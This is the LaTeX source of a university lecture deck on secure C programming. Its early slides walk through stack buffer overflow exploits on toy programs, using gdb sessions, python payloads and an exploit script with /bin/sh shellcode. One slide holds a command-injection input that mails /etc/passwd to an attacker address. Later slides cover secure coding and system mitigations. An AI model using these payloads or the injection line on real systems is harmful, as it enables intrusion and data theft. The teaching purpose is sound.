\documentclass{beamer}
\usepackage[latin1]{inputenc}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{color}
\usepackage{courier}
\usepackage{tikz}

\usetikzlibrary{shapes}

\newsavebox\terminalbox
\lstnewenvironment{terminal}[1][]
  {\lstset{basicstyle=\ttfamily\footnotesize,breaklines=true}\setbox\terminalbox=\vbox\bgroup\hsize=0.8\textwidth}
  {\egroup
   \tikzstyle{terminal} = [
    draw=white, text=white, font=courier, fill=black, very thick,
    rectangle, inner sep=2pt, inner ysep=8pt
   ]
   \tikzstyle{terminalTitle} = [
     fill=black, text=white, font=\ttfamily, draw=white
   ]
   \noindent\resizebox{\textwidth}{!}{
   \begin{tikzpicture}
   \node [terminal] (box){\usebox{\terminalbox}};
   \node[terminalTitle, rounded corners, right=10pt] at (box.north west) {#1};
   \end{tikzpicture}
}
}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

\lstdefinestyle{cstyle}{
language=[x86masm]Assembler,
alsolanguage=C,
basicstyle=\scriptsize, 
numbers=left, 
numberstyle=\tiny\color{gray}, 
showspaces=false, 
showstringspaces=false, 
keywordstyle=\color{blue},
commentstyle=\color{dkgreen},
stringstyle=\color{mauve}
}

\usetheme{Berlin}
\usecolortheme{beaver}
\title[How to secure your stack for fun and profit]{Secure Programming in C}
\author{Lef Ioannidis}
\institute{MIT EECS}
\date{\today}

\newcommand{\sword}{
\includegraphics[width=15pt]{sword.png} \hspace*{5pt}}
\newcommand{\shield}{
\includegraphics[width=15pt]{shield.png} \hspace*{5pt}}
\newcommand{\castle}{
\includegraphics[width=15pt]{castle.png} \hspace*{5pt}}

% ============================================
% DOCUMENT BEGINING HERE
% ============================================

\begin{document}
\begin{frame}
  \titlepage
\end{frame}
\begin{frame}{Introductions}
\begin{itemize}
\item {\LARGE Me} \\[0.2cm]
Junior at MIT, course 6.2. 
Interested in Computer Security, Operating Systems, Distributed Computing and System Administration.
\vspace*{1cm}
\item {\LARGE You} \\[0.2cm]
Computer programmers with knowledge in C and Systems, can read assembly, interested in writing secure code.
\end{itemize}
\end{frame}
\begin{frame}{Vulnerability statistics over the years (NIST)}
  \begin{center}
    
\includegraphics[width=9cm]{nist_vuln_stats.png}
  \end{center}
\end{frame}
\begin{frame}{Lecture Roadmap}
What we will cover:\\

\begin{table}[h!]
\centering
\begin{tabular}{cl}
\sword & Example attacks and exploits. \\
\shield & C-specific prevention \& mitigation. \\
\castle & System-wide prevention \& mitigation. \\
\end{tabular}
\end{table}

\vspace*{0.5cm}
\textbf{Target:} GNU/Linux systems.\\
\textbf{CC:} GCC $>=4.4$.
\end{frame}

%slide
\begin{frame}{\sword Case study: the notorious buffer overflow}
A buffer overflow example.
\begin{figure}[htb]

\includegraphics[width=7cm]{buffer.png}
\caption{From Wikimedia commons, buffer overflow basic example.}
\end{figure}
\end{frame}
%slide
\begin{frame}{\sword Memory Management: Linux}
  \begin{center}
    
\includegraphics[height=5.8cm]{linux_stack.png}
  \end{center}
  \let\thefootnote\relax\footnote{\tiny http://duartes.org/gustavo/blog/}
\end{frame}
%slide
\begin{frame}{\sword Vulnerable code}
\lstinputlisting[style=cstyle]{./stack1/test.c}
\end{frame}

%slide
\begin{frame}[fragile]{\sword Our first exploit}

\begin{terminal}[/bin/bash]
$ python -c " print 'x'*80 + '\x01' " | ./test1
Enter password:
You win!
$
\end{terminal}

\vspace*{0.5cm}
\pause
\textbf{Line 10:} gets(buf);\\
{\footnotesize ``Never  use  gets().'' - GNU Man pages(3), gets()
}

\end{frame}

%slide
\begin{frame}{\sword Secure version of previous code}
  \lstinputlisting[style=cstyle]{stack1/test1_sec.c}
\end{frame}

%slide
\begin{frame}{\sword The stack: Linux}
  \begin{center}
    
\includegraphics[height=5.8cm]{linux_stackbase.png}
  \end{center}
  \let\thefootnote\relax\footnote{\tiny Dowd, McDonald, Schuh-The art of software security assesment,fig: 5.3}
\end{frame}
%slide
\begin{frame}{\sword Stack frames: C}
  How functions are pushed in the stack: \\[0.2cm]
  \lstinputlisting[style=cstyle]{general/stack_frame_example1.c}
  \let\thefootnote\relax\footnote{\tiny Aleph One - Smashing the stack for fun and profit}
\end{frame}

\begin{frame}{\sword Stack frames: x86 assembly}
  \lstinputlisting[style=cstyle]{general/frame1.s}
\end{frame}
%slide
\begin{frame}[fragile]{\sword Stack operations to call function}
  \begin{center}
    \begin{minipage}{4.5cm}
      \begin{lstlisting}[style=cstyle]
subl	$12, %esp
movl	$3, 8(%esp)
movl	$2, 4(%esp)
movl	$1, (%esp)
call	function
      \end{lstlisting}
    \end{minipage}
    \begin{minipage}{4.5cm}
$3 \times $ sizeof(int) = 12 bytes.
    \end{minipage}
  \end{center}

  \vspace*{0.3cm}
  \begin{itemize}
  \item Note: The arguments are in reverse order because the \textbf{Linux stack grows down}.
  \item \textbf{Call} will push the IP in the stack.
  \end{itemize}
\end{frame}

\begin{frame}[fragile]{\sword Stack operations to call function}

  \begin{center}
    \begin{minipage}{4.5cm}
      \begin{lstlisting}[style=cstyle]
subl	$12, %esp
movl	$3, 8(%esp)
movl	$2, 4(%esp)
movl	$1, (%esp)
call	function
      \end{lstlisting}
    \end{minipage}
    \begin{minipage}{4.5cm}

  \begin{lstlisting}[style=cstyle]
function: 
         pushl	%ebp 
         movl	%esp, %ebp 
         subl	$16, %esp
\end{lstlisting} %$
    \end{minipage}
  \end{center}
  \begin{itemize}
  \item Pushes the base pointer (EBP) in the stack, now it's a saved frame pointer (SFP).
  \item Moves the stack pointer (ESP) in EBP, substituting the previous address.
  \item Subtracts space for the local variables from ESP.
  \end{itemize}
\end{frame}
%slide

\begin{frame}{\sword Smashing the stack}
  Using buffer overflow to overwrite a return address.\\[0.4cm]
  \begin{center}
    
\includegraphics[width=5cm]{stack_nosmash.jpg}
    \hspace*{0.2cm}
    
\includegraphics[width=5cm]{stack_smash.jpg}
  \end{center}
  \let\thefootnote\relax\footnote{\tiny Figures: http://skyrooks.ru}
\end{frame}

\begin{frame}{\sword Cool exercise: stack4.c}
\lstinputlisting[style=cstyle]{stack4/stack4.c}
\let\thefootnote\relax\footnote{\tiny http://community.corest.com/~gera/InsecureProgramming/}
\end{frame}
\begin{frame}{\sword Cool exercise: stack4.c}
\lstinputlisting[style=cstyle]{stack4/stack4.c}
\begin{itemize}
\item Still uses gets(), so it is vulnerable to buffer overflow.
\item 0x000a0d00 == \{ NULL, new line, carriage return, NULL \}
\item Impossible to write 0x000a0d00 to cookie because all these bytes trigger gets() to stop reading characters.
\item We need to redirect program flow to printf(``You win\textbackslash n'');
\end{itemize}
\end{frame}
%slide
\begin{frame}{\sword Overwriting the EIP}
\lstinputlisting[style=cstyle]{stack4/stack4.c}
\begin{itemize}
\item When a function is called it imediatelly pushes the EIP into the stack (SFP). \\
\item After it is complete a {\color{blue}ret} instruction pops the stack and moves SFP back to EIP. \\
\item Trick: Overwrite the SFP, while it's in the stack.
\end{itemize}
\end{frame}
%slide
\begin{frame}[fragile]{\sword Exploiting stack\#4.c}
\begin{terminal}[/bin/bash]
$ gdb stack4
(gdb) r 
Starting program: stack4 
buf: bffff58c cookie: bffff5dc 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa...
Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
$
\end{terminal} 

\vspace*{0.5cm}
EIP is overwritten! $0$x$61616161$ = ``aaaa''\\

\end{frame}
%slide
\begin{frame}[fragile]{\sword Now let's disassemble main()}
\begin{lstlisting}[style=cstyle]
0x08048424 <main+0>:	push   %ebp
0x08048425 <main+1>:	mov    %esp,%ebp
0x08048427 <main+3>:	and    $0xfffffff0,%esp
0x0804842a <main+6>:	sub    $0x70,%esp
0x0804842d <main+9>:	lea    0x6c(%esp),%eax
0x08048431 <main+13>:	mov    %eax,0x8(%esp)
0x08048435 <main+17>:	lea    0x1c(%esp),%eax
0x08048439 <main+21>:	mov    %eax,0x4(%esp)
0x0804843d <main+25>:	movl   $0x8048530,(%esp)
0x08048444 <main+32>:	call   0x8048350 <printf@plt>
0x08048449 <main+37>:	lea    0x1c(%esp),%eax
0x0804844d <main+41>:	mov    %eax,(%esp)
0x08048450 <main+44>:	call   0x8048330 <gets@plt>
0x08048455 <main+49>:	mov    0x6c(%esp),%eax
0x08048459 <main+53>:	cmp    $0xa0d00,%eax
0x0804845e <main+58>:	jne    0x804846c <main+72>
0x08048460 <main+60>:	movl   $0x8048548,(%esp)
0x08048467 <main+67>:	call   0x8048360 <puts@plt>
0x0804846c <main+72>:	leave  
0x0804846d <main+73>:	ret    
\end{lstlisting} %$
\end{frame} 

%slide
\begin{frame}[fragile]{\sword Registers}

\begin{terminal}[/bin/gdb stack4]
(gdb) b *0x0804846d 
(gdb) r 
Starting program: stack4 
buf: bffff58c cookie: bffff5dc 
aaaaaaaaaaaaaaaa 
Breakpoint 1, 0x0804846d in main () at stack4.c:13 
(gdb) info registers 
eax            0xb7fc8ff4	-1208184844
ecx            0xbffff58c	-1073744500
edx            0xb7fca334	-1208179916
ebx            0xb7fc8ff4	-1208184844
esp            0xbffff5ec	0xbffff5ec
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0x804846d	0x804846d <main+73>
\end{terminal}

\end{frame}
%slide
\begin{frame}[fragile]{\sword We have everything we need}

{\footnotesize
buf: bffff58c \\[0.3cm]
esp:           0xbffff5ec	0xbffff5ec\\[0.3cm]
%\vspace*{0.3cm}
}
\begin{lstlisting}[style=cstyle]
0x08048459 <main+53>:	cmp    $0xa0d00,%eax
0x0804845e <main+58>:	jne    0x804846c <main+72>
0x08048460 <main+60>:	movl   $0x8048548,(%esp)
0x08048467 <main+67>:	call   0x8048360 <puts@plt>
\end{lstlisting}
%$
{\footnotesize
\begin{itemize}
\item 0xbffff5ec $-$ 0xbffff58c $=$ 0x00000060 $=$ 96 bytes we need to overflow.
\item Jump to: 0x08048460
\item Linux $\rightarrow$ Reverse stack $\rightarrow$ \textbackslash x60\textbackslash x84\textbackslash x04\textbackslash x08
\end{itemize}
}
\end{frame}

% slide
\begin{frame}[fragile]{\sword Payload: Control Flow Redirection}
\begin{terminal}[/bin/bash]
$ python -c ''print 'a' * 96 + '\x60\x84\x04\x08' '' | ./test1 
buf: bffff58c cookie: bffff5dc 
you win! 
Segmentation fault
$
\end{terminal}
\end{frame}
%slide
\begin{frame}[fragile]{\sword Payload: Getting shell}
\begin{terminal}[exploit.py]
#!/usr/bin/env python

shellcode = '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'

print shellcode + '\x90' * 51 + '\x5c\xb3\x04\x08'
\end{terminal}

\begin{terminal}[/bin/bash -> Got shell!]
$ python exploit.py | ./stack4 
buf: bffff58c cookie: bffff5dc
$
\end{terminal}
\end{frame}
%slide
\begin{frame}{\sword Other Attacks}

{\Large\color{blue} - Off-by-one exploits \\}
  Common programming mistake when computing array boundaries. In little endian architectures this can result in overwriting the least significant byte. \\[0.4cm]
  Apache off-by-one bug 2007, sudo off-by-one bug 2008 etc.
\end{frame}
%slide
\begin{frame}{\sword Other Attacks}

{\Large\color{blue} - Return-to-libc \\}
Similar in principal to a buffer overflow but instead of executing arbitrary shellcode you call functions from libc.so.\\[0.4cm]
Works when a \texttt{noexec} stack is enforced.
\end{frame}
%slide
\begin{frame}{\sword Other Attacks}

{\Large\color{blue} - Heap Overflow \\}
Taking advantage of libc bugs to take over dynamicaly allocated memory, or even the memory allocator itself. Many 0-day exploits nowdays are heap overflows.\\[0.4cm]
\emph{He who controls the allocator, controls the system!} - Anonymous
\end{frame}
%slide
\begin{frame}{\sword $\rightarrow$ \shield More information}
\begin{itemize}
\item The Phrack magazine. (\url{http://www.phrack.org})
\item The Defcon Conference. (\url{http://www.defcon.org})
\item LL CTF, MIT SEC seminars. (\url{http://llctf.mit.edu})
\end{itemize}
\vspace*{0.8cm}
{\Large Next: C-specific prevention \& mitigation}
\end{frame}


\begin{frame}{\shield Secure your code: CERT secure coding standards}
\begin{center}

\includegraphics[height=3cm]{cert.jpg}
\end{center}
\begin{itemize}
\item Standards for C, C++ and Java (some still under development).
\item Managed string library.
\item Real world examples of insecure code.
\end{itemize}
\end{frame}
%slide
\begin{frame}{\shield Learning by the coutner-example of others}
Bad code examples will help you learn how to write secure code and prevent:
\begin{itemize}
\item Security Holes 
\item Undefined beheaviour
\item Obscurity
\item Errors
\end{itemize}
\end{frame}

%%BEGINING CODE EXAMPLES


\begin{frame}[fragile]{\shield String null termination errors\#1}
\begin{lstlisting}[style=cstyle]
int main(int argc, char *argv[]) {
  char cmdline [4096];
  cmdline[0] = '\0';
 
  for (int i = 1; i < argc; ++i) {
      strcat(cmdline, argv [i]);
      strcat(cmdline, " ");
  }
  /* ... */
  return 0;
}
\end{lstlisting}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Compliant code}
\begin{lstlisting}[style=cstyle]
int main(int argc, char *argv[]) {
  size_t bufsize = 0;
  size_t buflen = 0;
  char* cmdline = NULL;
  for (int i = 1; i < argc; ++i) {
    const size_t len = strlen(argv[i]);
    if (bufsize - buflen <= len) {
      bufsize = (bufsize + len) * 2;
      cmdline = realloc(cmdline, bufsize);
      if (NULL == cmdline)
        return 1;   /* realloc failure */
    }
    memcpy(cmdline + buflen, argv[i], len);
    buflen += len;
    cmdline[buflen++] = ' ';
  }
  cmdline[buflen] = '\0';
  /* ... */
  free(cmdline);
  return 0;
}
\end{lstlisting}
\end{frame}
%slide
\begin{frame}[fragile]{\shield String null termination errors\#2}
\begin{lstlisting}[style=cstyle]
char buf[BUFSIZ];

if (gets(buf) == NULL) {
  /* Handle Error */
}

\end{lstlisting}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Compliant code}
\begin{lstlisting}[style=cstyle]
char buf[BUFFERSIZE];
int ch;
char *p;
 
if (fgets(buf, sizeof(buf), stdin)) {
  /* fgets succeeds, scan for newline character */
  p = strchr(buf, '\n');
  if (p) 
    *p = '\0';
  else {
    /* newline not found, flush stdin to end of line */
    while (((ch = getchar()) != '\n')
          && !feof(stdin)
          && !ferror(stdin)
    );
  }
}
else {
  /* fgets failed, handle error */
}
\end{lstlisting}
\end{frame}

%slide
\begin{frame}[fragile]{\shield String null termination errors\#3}
\begin{lstlisting}[style=cstyle]
char *string_data;
char a[16];
/* ... */
strncpy(a, string_data, sizeof(a));
\end{lstlisting}
\end{frame}

%slide
\begin{frame}[fragile]{\shield Compliant solution:}
\begin{lstlisting}[style=cstyle]
char *string_data = NULL;
char a[16];
 
/* ... */
 
if (string_data == NULL) {
  /* Handle null pointer error */
}
else if (strlen(string_data) >= sizeof(a)) {
  /* Handle overlong string error */
}
else {
  strcpy(a, string_data);
}
\end{lstlisting}
\end{frame}
%slide

\begin{frame}[fragile]{\shield Passing strings to complex subsystems}
\begin{lstlisting}[style=cstyle]
sprintf(buffer, "/bin/mail %s < /tmp/email", addr);
system(buffer);
\end{lstlisting}
\pause
\vspace*{0.4cm}
What if:\\
bogus@addr.com; cat /etc/passwd  \textbar mail some\@badguy.net
\let\thefootnote\relax\footnote{\tiny Viega, John, \& Messier, Matt. Secure Programming Cookbook for C and C$++$: Recipes for Cryptography, Authentication, Networking, Input Validation \& More.}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Compliant solution: Whitelisting}
\begin{lstlisting}[style=cstyle]
static char ok_chars[] = "abcdefghijklmnopqrstuvwxyz"
                         "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
                         "1234567890_-.@";
char user_data[] = "Bad char 1:} Bad char 2:{";
char *cp = user_data; /* cursor into string */
const char *end = user_data + strlen( user_data);
for (cp += strspn(cp, ok_chars); 
     cp != end; 
     cp += strspn(cp, ok_chars)) {
  *cp = '_';
}
\end{lstlisting}
\let\thefootnote\relax\footnote{\tiny Based on the tcp\_wrappers package written by Wietse Venema}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Off-by-one errors}
Can you find all the off-by-one errors?\\[0.3cm]
\begin{lstlisting}[style=cstyle]
int main(int argc, char* argv[]) {
  char source[10];
  strcpy(source, "0123456789");
  char *dest = (char *)malloc(strlen(source));
  for (int i=1; i <= 11; i++) {
    dest[i] = source[i];
   }
  dest[i] = '\0';
  printf("dest = %s", dest);
  }

\end{lstlisting}
\let\thefootnote\relax\footnote{\tiny Robert Seacord, CERT: Safer strings in C}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Integer overflow errors\#1: Addition}
\begin{lstlisting}[style=cstyle]
unsigned int ui1, ui2, usum;
 
/* Initialize ui1 and ui2 */
 
usum = ui1 + ui2;

\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Compliant code}
\begin{lstlisting}[style=cstyle]
unsigned int ui1, ui2, usum;
 
/* Initialize ui1 and ui2 */
 
if (UINT_MAX - ui1 < ui2) {
  /* handle error condition */
}
else {
  usum = ui1 + ui2;
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Integer overfloat errors\#2: Subtraction}
\begin{lstlisting}[style=cstyle]
signed int si1, si2, result;
 
/* Initialize si1 and si2 */
 
result = si1 - si2;

\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Compliant code}
\begin{lstlisting}[style=cstyle]
signed int si1, si2, result;
 
/* Initialize si1 and si2 */
 
if ((si2 > 0 && si1 < INT_MIN + si2) ||
    (si2 < 0 && si1 > INT_MAX + si2)) {
  /* handle error condition */
}
else {
  result = si1 - si2;
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Integer overfloat errors\#3: Multiplication}
\begin{lstlisting}[style=cstyle]

signed int si1, si2, result;
 
/* ... */
 
result = si1 * si2;
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield Compliant code}
\begin{lstlisting}[style=cstyle]
signed int si1, si2, result;

/* Initialize si1 and si2 */
static_assert(
  sizeof(long long) >= 2 * sizeof(int),
  "Unable to detect overflow after multiplication"
);
signed long long tmp = (signed long long)si1 *
                       (signed long long)si2;
/*
 * If the product cannot be represented as a 32-bit integer,
 * handle as an error condition.
 */
if ( (tmp > INT_MAX) || (tmp < INT_MIN) ) {
  /* handle error condition */
}
else {
  result = (int)tmp;
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield GCC Preprocessor: Inlines VS macros}
\begin{itemize}
\item Non-compliant code
  \begin{lstlisting}[style=cstyle]
#define CUBE(X) ((X) * (X) * (X))
int i = 2;
int a = 81 / CUBE(++i);
  \end{lstlisting}
\pause
Expands to: 
\begin{lstlisting}[style=cstyle]
int a = 81 / ((++i) * (++i) * (++i)); //Undefined!
\end{lstlisting}
\pause
\item Compliant code
\begin{lstlisting}[style=cstyle]
inline int cube(int i) {
  return i * i * i;
}
int i = 2;
int a = 81 / cube(++i);
\end{lstlisting}
\end{itemize}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Pointer arithmetic: Never for different arrays}
  \begin{lstlisting}[style=cstyle]
int nums[SIZE];
char *strings[SIZE];
int *next_num_ptr = nums;
int free_bytes;
 
/* increment next_num_ptr as array fills */
 
free_bytes = strings - (char **)next_num_ptr;

  \end{lstlisting}
\end{frame}
%slide
\begin{frame}[fragile]{\shield Compliant solution}
  \begin{lstlisting}[style=cstyle]
int nums[SIZE];
char *strings[SIZE];
int *next_num_ptr = nums;
int free_bytes;
 
/* increment next_num_ptr as array fills */
 
free_bytes = (&(nums[SIZE]) - next_num_ptr) * sizeof(int);
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{\shield GCC Preprocessor: inlines VS macros}
\begin{itemize}
\item Non-compliant code
  \begin{lstlisting}[style=cstyle]
#define F(x) (++operations, ++calls_to_F, 2*x)
#define G(x) (++operations, ++calls_to_G, x + 1)
 
y = F(x) + G(x);
  \end{lstlisting}
\pause
\item The variable operations is both read and modified twice in the same expression, so it can receive the wrong value.\\[0.1cm]
\end{itemize}
\end{frame}

\begin{frame}[fragile]{\shield Compliant code}

\begin{lstlisting}[style=cstyle]
inline int f(int x) {
   ++operations;
   ++calls_to_f;
   return 2*x;
}
inline int g(int x) {
   ++operations;
   ++calls_to_g;
   return x + 1;
}
 
y = f(x) + g(x);
\end{lstlisting}
\end{frame}
%slide
\begin{frame}{\shield Advanced techniques for securing your code}
\begin{itemize}
\item Using secure libraries: Managed string library, Microsoft secure string library, safeStr.
\pause
\item They provide alternatives to insecure standard C functions. (ie: safeStr)
{\scriptsize
\begin{center}
\begin{minipage}{3cm}
safestr\_append$()$\\
safestr\_nappend$()$\\
safestr\_compare$()$\\
safestr\_find$()$\\
safestr\_copy$()$\\
safestr\_length$()$\\
safestr\_sprintf$()$\\
safestr\_vsprintf$()$
\end{minipage}
\begin{minipage}{3cm}
strcat$()$ \\
strncat$()$ \\
strcpy$()$ \\
strncpy$()$ \\
strcmp$()$ \\
strlen$()$ \\
sprintf$()$ \\
vsprintf$()$ \\
\end{minipage}
\end{center}
}
\end{itemize}
\end{frame}

%slide
\begin{frame}{\shield $\rightarrow$ \castle Advanced techniques for securing your code}
\begin{center}
\begin{itemize}
\item Canaries
\begin{itemize}
\item Terminator: NULL, CR, LF, -1. Weak because the canary is known.
\item Random: Generating random bytes in the end of buffer during runtime.
\item Random XOR: Random canaries XOR scrambled with all or parts of the control data.
\end{itemize}
\end{itemize}

\includegraphics[height=2cm]{canaries.jpg}
\end{center}
\end{frame}

%slide/CASTLE SECTION
\begin{frame}{\castle Protecting your System}
\begin{itemize}
\item W\textasciicircum X protection, the data section on the stack is flagged as not executable and the program memory as not writable.
\pause
\item ASLR: Address space layout randomization. Randomly allocate shared libraries, stack and heap.
\pause
\item Setting the NX bit: CPU support for flagging executable and non-executable data. Reduces overhead for W\textasciicircum X.
\pause
\item iOS5: CSE: Code Signing Enforcement. Signing each executable memory page and checking the CS\_VALID flag. Prevents changes in executable code during runtime.
\end{itemize}
\end{frame}

\begin{frame}{\castle Examples}
\begin{itemize}
\item PaX on Linux
\pause
\item OpenBSD kernel
\pause
\item Hardened Gentoo
\pause
\item grsecurity
\pause
\item Microsoft Windows Server 2008 R2
\end{itemize}
\end{frame}

\begin{frame}{That's all!}

{\Huge Thank you. Questions?}
\end{frame}
\end{document}
